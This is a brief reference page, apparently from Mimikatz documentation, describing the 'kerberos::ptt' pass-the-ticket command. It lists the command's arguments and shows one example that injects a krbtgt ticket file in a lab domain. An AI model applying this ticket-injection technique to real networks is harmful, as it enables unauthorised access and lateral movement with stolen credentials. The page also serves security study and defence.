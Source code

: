 # ptt

`kerberos::ptt` is used for [passing the ticket](https://www.thehacker.recipes/ad/movement/kerberos/ptt) by injecting one or may Kerberos tickets in the current session. The ticket can either be a TGT (Ticket-Granting Ticket) or an ST (Service Ticket). It has the following command line arguments:

* `/filename` - the ticket's filename (can be multiple)
* `/directory` - a directory path, all `.kirbi` files inside will be injected.

```
mimikatz # kerberos::ptt 0-40e10000-m3g9tr0n@krbtgt~HACKLAB.LOCAL-HACKLAB.LOCAL.kirbi

* File: '0-40e10000-m3g9tr0n@krbtgt~HACKLAB.LOCAL-HACKLAB.LOCAL.kirbi': OK
```
